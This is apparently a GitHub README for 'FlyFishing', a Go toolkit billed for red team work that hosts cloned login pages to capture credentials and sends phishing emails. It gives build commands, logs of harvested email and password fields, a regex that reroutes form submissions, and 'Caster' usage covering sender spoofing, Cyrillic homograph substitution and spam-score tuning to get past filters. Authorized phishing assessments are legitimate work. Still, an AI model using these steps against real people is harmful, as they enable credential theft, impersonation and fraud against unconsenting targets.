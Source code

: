 # FlyFishing 🎣
Quickly Deploy Phishing Webpages for Red Team Assessments 


# Description 🦠
Quickly deploy phishing webpages and cast phishing emails to lure victims in Red Team Assessments. This is a lighweight golang webserver which hosts the webpage locally or for one to host externally. Caster on the other hand is for casting phishing emails to given targets on an assessment.

# Deployment 🔨
```bash
git clone https://github.com/CharlesTheGreat77/FlyFishing
cd FlyFishing
go mod init main
go mod tidy
go get github.com/PuerkitoBio/goquery
go build -o fishing main.go
```

# fishing 🎣
FlyFishing allows one to setup a local phishing webpage based on a given template. Templates can be found in **/templates** *or* found online.
```bash
./fishing -template templates/google.html
2024/09/23 06:16:27 [*] Server started at http://localhost:8888
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:58 [*] Client IP on login: 192.168.0.42:54775
2024/09/23 06:16:58 [*] Received form data:
2024/09/23 06:16:58 Field: login_password, Value: admin1233
2024/09/23 06:16:58 Field: remember_me, Value: on
2024/09/23 06:16:58 Field: login_email, Value: admin@gmail.com
```

## Templates 📝
How are templates processed?
By using regex to locate action attribute(s) in the form and points such to our /login handler
```golang
re := regexp.MustCompile(`(?i)(<form[^>]*action=")([^"]*)(")`)
modified := re.ReplaceAllString(html, `${1}/login${3}`)
```
* Redirection is based on file name, save templates to **templates** with the correlating website which the form is for (ie. linkedin.html).
  Templates are encoded in base64 and displayed after 3 seconds of the page being visited.


# Caster 🎣
Caster allows one to send or modify given templates to send to targets. It allows one to test the score(s) of a given phishing email using *mail-tester.com* for the odds of the email landing in spam. By spoofing a given email by effectively manipulating the *headers* with a well made phishing email will hook 🪝 most if not all targets!

## Build caster ⚙️
```
go build -o caster caster.go
./caster -h
```

## Usage 🍤
```bash
Usage of ./caster:
  -help
    	show usage
  -homograph
    	specify option to replace chars with cryillic
  -spamfilter
    	enable to get a given templates spam score
  -spoof string
    	specify address to spoof email from [keep spam in mind]
  -subject string
    	specify a subject to add to email
  -target string
    	specify target(s) email address [filename or seperated by commas]
  -template string
    	specify a template for the email
```

## Caster examples ☕️

Single Target
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target example@domain.com
```

Multiple Target(s)
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target example@domain.com,example2@domain.com
```

Target(s) in file
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -target emails.txt
```
* emails in file must be seperated by line.


Modify template to replace chars with homographic (cryillic) lookalikes
```bash
caster -template template.html -homograph
```

Testing phishing emails with spamfilter
```bash
caster -template template.html -subject "RSVP Lunch" -spoof "Steven <michale@filamentco.org>" -spamfilter
```
* sends phishing email to mail-tester.com to retreive **spam** score. [default mail-tester email is hardcoded]

## Spamfilter
The spamfilter email to test phishing email spam scores can be changed to an "updated" email of your choice.
1. Visit https://mail-tester.com
2. Copy Link Email
3. Paste email on line **217**
```golang
	tempMail := "test-sxzd09jk9@srv1.mail-tester.com"
```

# Todo 🧾
* AI template creation [ ]
* Email Obfuscation [x]

# But why FlyFishing? 🤔
After a previous phishing assessment, I wanted to highlight the ease of spinning up cloned phishing pages within around 20 minutes from start to finish. This would allow anyone with limited time to get crackin' wit creds! 🔥


# Credits 🪙
Templates: https://github.com/htr-tech/zphisher/tree/master/.sites

# Disclaimer 🚩
This program should only be used on environments that you own or have explicit permission to do so. The author will not be held liable for any illegal use of this program.
